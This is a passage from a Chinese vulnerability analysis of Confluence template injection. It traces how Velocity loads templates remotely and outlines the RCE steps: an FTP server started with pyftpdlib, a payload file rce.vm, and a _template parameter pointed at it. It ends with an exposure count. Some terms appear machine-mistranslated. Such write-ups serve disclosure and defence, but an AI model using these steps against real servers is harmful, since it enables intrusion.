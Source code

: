 
关键的地方就在这里，会调用super.findResource(name)，这里返回了网址，也就是能获取到对象。

![](https://outside.rainycrying.com/imgs/2019/04/0f1119fa1a0f8eaf.png)


不仅如此，这里还可以使用其他协议（HTTPS，FTP等）获取远程的对象，意味着可以加载远程的对象。


![](https://outside.rainycrying.com/imgs/2019/04/b2e2d3f4ad11049a.png)

获取到URL对象之后，继续回到之前的getResourceAsStream，可以看到，当返回的URL不为空时，

调用会url.openStream()电子杂志数据。


![](https://outside.rainycrying.com/imgs/2019/04/61584adf890e5cc2.png)

最终获取到数据给速度渲染。

尝试一下 

![](https://outside.rainycrying.com/imgs/2019/04/51eb721465fdcc3e.png)

至于6.14.1为啥不行，赶着应急，后续会跟，如果有新的发现，会同步上来，只目前看到ClassLoader不一样。

6.14.1 


![](https://outside.rainycrying.com/imgs/2019/04/30c5ae46a18caeb9.png)


6.9.0

![](https://outside.rainycrying.com/imgs/2019/04/a53a98f337d1a20d.png)

这两个装载机的关系如下

![](https://outside.rainycrying.com/imgs/2019/04/3bcdd80ab5ae7469.png)


现在可以加载本地和远程模板了，可以尝试进行RCE。

关于速度的RCE，基本上有效载荷都来源于15年入侵者的服务端模板注入的议题，但是在合流上用不了，因为在调用方法的时候会经过velocity-htmlsafe-1.5.1.jar，里面多了一些过滤和限制。但是仍然可以利用反射来执行命令。

用python -m pyftpdlib -p 2121开启一个简单的FTP服务器，将有效载荷保存成rce.vm，保存在当前目录。

将_template设置分类中翻译ftp://localhost:2121/rce.vm，发送，成功执行命令。


![](https://outside.rainycrying.com/imgs/2019/04/4e8632c5ca7b555b.png)

对于命令回显，同样可以使用反射构造出有效载荷，执行ipconfig的查询查询结果。

![](https://outside.rainycrying.com/imgs/2019/04/e038a72cc956e9f7.png)

漏洞影响
根据ZoomEye网络空间搜索引擎对关键字“X-Confluence”进行搜索，共得到61,856条结果，主要分布美国，德国，中国等国家。

